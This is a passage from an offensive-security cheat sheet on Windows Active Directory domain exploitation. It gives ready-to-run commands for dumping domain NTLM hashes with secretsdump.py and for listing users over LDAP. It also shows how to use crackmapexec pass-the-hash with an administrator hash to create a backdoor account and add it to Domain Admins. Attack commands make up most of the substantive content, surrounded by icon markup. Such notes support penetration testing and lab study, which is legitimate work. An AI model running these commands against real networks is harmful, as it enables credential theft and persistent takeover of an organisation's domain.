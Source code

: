 ./secretsdump.py -just-dc-ntlm burmat.co/administrator@10.10.10.123

##

GetADUsers.py[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='840'%3e%3cg data-evernote-id='841' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='842' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='843' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#getadusers-py)

Leverage this script to grab usernames via LDAP

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='851'%3e%3cg data-evernote-id='852' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='853' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='854' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

./GetADUsers.py -all -no-pass -dc-ip 10.10.10.123 burmat.co/ | cut -d " " -f 1 | grep -Ev 'Name|Impacket|\-\-|\[' >> users.txt

#

CRACKMAPEXEC[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='866'%3e%3cg data-evernote-id='867' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='868' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='869' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#crackmapexec)

##

Pass-the-Hash[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='882'%3e%3cg data-evernote-id='883' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='884' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='885' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#pass-the-hash)

Because hashes are just as good:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='893'%3e%3cg data-evernote-id='894' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='895' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='896' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

59## create a new user

60crackmapexec smb 10.10.10.123 -u 'administrator' -d 'burmat.co' -H 'd7452863d1e8e15241nn50ceb1ab9dfe' -x 'net user burmat Pwn3dPwn3d! /add /domain'

61## add user to domain admins group

62crackmapexec smb 10.10.10.123 -u 'administrator' -d 'burmat.co' -H 'd7452863d1e8e15241nn50ceb1ab9dfe' -x 'net group "Domain Admins" /add burmat /domain'

##
